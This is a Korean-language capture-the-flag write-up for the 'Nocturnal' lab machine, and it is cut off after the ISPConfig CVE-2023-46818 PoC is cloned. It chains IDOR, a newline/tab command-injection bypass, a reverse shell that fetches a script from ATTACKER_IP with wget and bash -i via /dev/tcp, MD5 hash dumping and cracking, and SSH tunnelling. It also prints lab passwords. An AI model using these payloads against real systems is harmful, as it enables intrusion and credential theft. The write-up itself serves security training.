# Nocturnal

## Overview

PHP 기반 파일 관리 웹 서비스에서 동작하는 Linux 머신이다. 공격 체인은 다음과 같다. IDOR(Insecure Direct Object Reference)와 LFI(Local File Inclusion)를 통해 다른 사용자의 업로드 파일에서 크리덴셜을 탈취하고, 백업 기능의 블랙리스트 필터를 개행 문자로 우회하는 커맨드 인젝션으로 `www-data` 권한의 리버스 쉘을 획득한다. 이후 SQLite 데이터베이스에서 추출한 MD5 해시를 크랙하여 `tobias`로 수평 이동하고, 최종적으로 CVE-2023-46818(ISPConfig 3.2.10p1 인증된 PHP 코드 인젝션)로 root 권한까지 상승한다.

---

## Target Information

| 항목 | 내용 |
|------|------|
| 머신 이름 | Nocturnal |
| OS | Ubuntu 20.04 LTS (Linux) |
| IP | 10.129.x.x |
| 난이도 | Easy |
| 주요 취약점 | IDOR, LFI, Command Injection (Newline Bypass), MD5 Hash Cracking, CVE-2023-46818 |
| 주요 기술 | 유저 열거, 필터 우회(`%0a`/`%09`), 리버스 쉘, SSH 포트 포워딩, ISPConfig RCE |

---

## Enumeration

### TCP Port Scan

```bash
nmap -sC -sV $IP
```



열린 포트는 두 개다.

| 포트 | 서비스 | 버전 |
|------|--------|------|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 |
| 80/tcp | HTTP | nginx 1.18.0 (Ubuntu) |

HTTP 서버는 `http://nocturnal.htb`로 리다이렉트한다. 로컬 DNS 설정이 필요하다.

```bash
echo "$IP nocturnal.htb" | sudo tee -a /etc/hosts
```

### Web Enumeration

`http://nocturnal.htb`에 접속하면 Word, Excel, PDF 파일을 업로드하고 조회할 수 있는 파일 관리 플랫폼이 표시된다. 회원가입과 로그인 기능이 제공된다.

```bash
gobuster dir -u http://nocturnal.htb \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,html,txt
```



| 경로 | 상태 코드 | 비고 |
|------|-----------|------|
| /index.php | 200 | 메인 페이지 |
| /login.php | 200 | 로그인 폼 |
| /register.php | 200 | 회원가입 폼 |
| /dashboard.php | 302 | 로그인 필요 |
| /admin.php | 302 | 로그인 필요 |
| /view.php | 302 | 로그인 필요 |
| /backups | 301 | 디렉토리 존재 확인 |
| /uploads | 403 | 접근 금지 |

`register.php`에서 테스트 계정을 생성하여 인증이 필요한 기능에 접근한다.

---

## Initial Foothold

### IDOR — 다른 사용자의 파일 접근

로그인 후 `/dashboard.php`에서 파일 업로드가 가능하다. 업로드된 파일은 다음 URL 구조로 접근한다.

```
http://nocturnal.htb/view.php?username=test&file=shell.php.pdf
```

`username` 파라미터가 어떤 사용자의 파일을 서빙할지 직접 제어한다. 서버 측에서 세션과 `username`의 일치 여부를 검증하지 않기 때문에, 인증된 사용자라면 누구든 타인의 파일을 요청할 수 있다. 전형적인 IDOR 취약점이다.

유효한 유저명을 찾기 위해 `view.php`의 에러 메시지 차이를 분석했다.

| 조건 | 에러 메시지 |
|------|------------|
| 존재하지 않는 유저명 | `User not found` |
| 유효한 유저명, 파일 없음 | `File does not exist` |
| 유효하지 않은 확장자 | `Invalid file extension` |

이 차이를 이용해 유저를 열거할 수 있다. 세션 쿠키를 포함한 `ffuf`로 `username` 파라미터를 퍼징하고 `User not found` 응답을 필터링했다.

```bash
ffuf -u "http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf" \
  -w /usr/share/seclists/Usernames/Names/names.txt \
  -H "Cookie: PHPSESSID=<session_id>" \
  -fr "User not found"
```



유효한 유저 세 명이 발견됐다: `admin`, `amanda`, `tobias`. `amanda`의 응답 크기(3113바이트)가 나머지(3037바이트)보다 크다는 점에서 파일이 업로드되어 있음을 알 수 있다.

### LFI — Amanda의 파일 목록 노출

`username=amanda&file=`로 직접 접근하면 확장자 검증에서 즉시 차단된다. 그러나 유효한 확장자를 가진 존재하지 않는 파일명을 입력하면, 확장자 검증은 통과하고 파일 탐색 단계까지 도달하여 해당 유저의 파일 목록이 HTML 응답에 포함된다.

```bash
curl -s "http://nocturnal.htb/view.php?username=amanda&file=x.pdf" \
  -H "Cookie: PHPSESSID=<session_id>" | grep -i "href\|li\|file"
```



Amanda가 업로드한 파일은 `privacy.odt`다. IDOR를 통해 파일을 다운로드한다.

```
http://nocturnal.htb/view.php?username=amanda&file=privacy.odt
```



문서에는 IT팀이 Amanda에게 발급한 임시 비밀번호가 포함되어 있다: `arHkG7HAI68X8s1J`

### Command Injection — www-data 권한 리버스 쉘

`amanda`로 로그인하면 `/admin.php`의 어드민 패널에 접근할 수 있다. 패널에는 **Create Backup** 기능이 있으며, 입력한 비밀번호가 쉘 명령어에 직접 연결된다.

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " . > " . $logFile . " 2>&1 &";
```

블랙리스트 필터가 위험한 문자를 차단하려 시도한다.

```php
$blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
```

개행 문자(`\n`, URL 인코딩: `%0a`)가 블랙리스트에 없다. 리눅스 쉘에서 개행 문자는 세미콜론과 동일하게 명령어를 구분하는 역할을 한다. 또한 공백은 차단되어 있으나 탭 문자(`%09`)는 차단되지 않아 명령어 인자 구분이 가능하다.

amanda로 로그인하면 어드민 패널과 백업 기능에 접근할 수 있다.




다운로드한 백업 파일에서 `login.php` 소스를 확인하면 SQLite DB 경로와 MD5 기반 비밀번호 저장 방식을 알 수 있다.



공격 머신에서 리버스 쉘 스크립트를 준비하고 Python HTTP 서버로 서빙한다.

```bash
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1' > /tmp/shell.sh
cd /tmp && python3 -m http.server 8000
```

netcat 리스너를 연다.

```bash
nc -lvnp 4444
```

페이로드는 하나의 요청 안에서 wget으로 스크립트를 다운받고 즉시 bash로 실행한다. `%0a`가 명령어를 구분하고 `%09`가 각 명령어 내 공백을 대체한다.

```bash
curl -s -X POST "http://nocturnal.htb/admin.php" \
  -H "Cookie: PHPSESSID=<session_id>" \
  -d "backup=1&password=test%0awget%09<ATTACKER_IP>:8000/shell.sh%09-O%09/tmp/s.sh%0abash%09/tmp/s.sh%0a"
```



`www-data` 권한의 쉘 획득 성공. 쉘을 안정화한다.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```





---

## Lateral Movement — www-data → tobias

### SQLite 데이터베이스 덤프

`login.php` 소스에서 확인한 SQLite DB 경로는 `../nocturnal_database/nocturnal_database.db`다. 해당 파일은 `www-data`가 읽을 수 있는 권한(`-rw-rw-r--`)으로 설정되어 있다.

```bash
sqlite3 /var/www/nocturnal_database/nocturnal_database.db "SELECT * FROM users;"
```



모든 유저의 비밀번호 해시가 추출됐다.

| ID | 유저명 | MD5 해시 |
|----|--------|----------|
| 1 | admin | d725aeba143f575736b07e045d8ceebb |
| 2 | amanda | df8b20aa0c935023f99ea58358fb63c4 |
| 4 | tobias | 55c82b1ccd55ab219b3b109b07d5061d |

### 해시 크랙

tobias의 해시를 저장하고 hashcat으로 rockyou 워드리스트를 사용해 크랙한다.

```bash
echo "55c82b1ccd55ab219b3b109b07d5061d" > hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```



| 해시 | 비밀번호 |
|------|----------|
| 55c82b1ccd55ab219b3b109b07d5061d | slowmotionapocalypse |

### tobias로 SSH 접속

```bash
ssh tobias@<TARGET_IP>
# password: slowmotionapocalypse
```



```bash
cat ~/user.txt
```



---

## Privilege Escalation — tobias → root

### 내부 서비스 탐지

```bash
ss -tlnp
```



포트 8080이 `127.0.0.1`에서만 리스닝 중이다. 외부에서 직접 접근이 불가능하다. curl로 HTTP 응답을 확인하면 `ispconfig.css?ver=3.2`가 포함되어 있어 ISPConfig 서비스임을 파악할 수 있다.

```bash
curl -s http://127.0.0.1:8080/login/
```

### SSH 포트 포워딩

공격 머신 브라우저에서 ISPConfig 패널에 접근하기 위해 SSH 로컬 포트 포워딩을 사용한다. `-N` 옵션은 인터랙티브 쉘 없이 터널만 생성하여 포트 충돌을 방지한다.

```bash
ssh -L 8080:127.0.0.1:8080 -N -vv tobias@<TARGET_IP>
```



브라우저에서 `http://127.0.0.1:8080`으로 접속하면 ISPConfig 로그인 페이지가 표시된다.



### ISPConfig 로그인

`admin` / `slowmotionapocalypse`로 로그인 성공한다. tobias의 OS 계정 비밀번호가 ISPConfig 어드민 계정에도 재사용되고 있었다.



Help 페이지에서 버전을 확인한다.



**ISPConfig Version: 3.2.10p1**

### CVE-2023-46818 — 인증된 PHP 코드 인젝션

ISPConfig 3.2.11p1 미만 버전은 `admin_allow_langedit`가 활성화된 경우 언어 파일 편집기를 통해 인증된 관리자가 임의의 PHP 코드를 삽입할 수 있다. 삽입된 코드는 웹 서버 프로세스의 권한으로 실행되며, 이 머신에서는 ISPConfig가 root로 동작한다.

PoC를 클론하고 의존성을 설치한다.

```bash
git clone https://github.com/hunntr/CVE-2023-46818
cd CVE-2023-46818
pip install -r requirements.txt --break-system-packages
```



